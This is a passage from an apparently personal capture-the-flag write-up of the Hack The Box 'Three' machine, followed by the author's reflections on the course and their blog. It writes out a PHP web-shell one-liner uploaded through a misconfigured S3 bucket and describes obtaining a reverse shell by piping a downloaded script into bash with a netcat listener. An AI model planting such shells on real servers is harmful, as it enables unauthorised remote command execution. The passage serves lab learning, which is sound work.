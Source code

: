 After learning what flags needed to be set, we can first list the available buckets, and then list the contents of them. Sadly there isn't any sensitive information here.

Besides enumeration, `awscli` also allows us to add files to buckets. Using the `cp` flag we can add a generic PHP one-liner shell to the website. First we create the one-liner using `echo '<?php system($_GET["cmd"]); ?>' > shell.php`. Next we upload it to the site:

![Upload](/assets/img/three/upload.png).

After that we can simply write commands after a `?cmd=` when visiting `thetoppers.htb/shell.php`.

![Shell Proof](/assets/img/three/shellproof.png)

Technically we are the admin account and could try to find the flag through the URL commands but this poses several problems. Namely we can't really leave our current directory, or execute multiple commands at once. It would be much simpler to establish a reverse shell since then we could be in a terminal window with access. To do so requires several steps. 

We start by creating a connection shell file that we will download and execute on the site, which will establish a connection back to our machine. By creating `shell.sh` and hosting that directory on a python server we can then run `curl | bash` through our one line php shell that we already have so that we download `shell.sh` from the attacking machine and then pipe it into bash. On my machine I already have a `netcat` listener set up which is ready to receive the connection.

Turns out the flag was just one `cd ..` away from where the one-liner originally placed us.

![Flag](/assets/img/three/flag.png)

# Conclusion

This set was both easier and harder than the previous one. The boxes stepped up in complexity sure, but I'd done most of the techniques before so I at least had a starting point. It also felt good to use my notes from previous years, since that was further proof that learning didn't go to waste. I think writing each report after each box, rather than writing them all at once is the right idea, and in fact I might take it one step further and start writing the report as I'm solving it. I tend to include mistakes in the report anyways so outside of an introductory summary I won't have to go back and edit.

Things are looking up, I've figured out spellcheck (finally) and am getting more comfortable with GitHub. Ideally I'm still missing a lot of features that I would like to have on the site like stretching to accommodate wider displays or maybe even comments. A learning experience the entire way through. Here's to Track 3 next week!
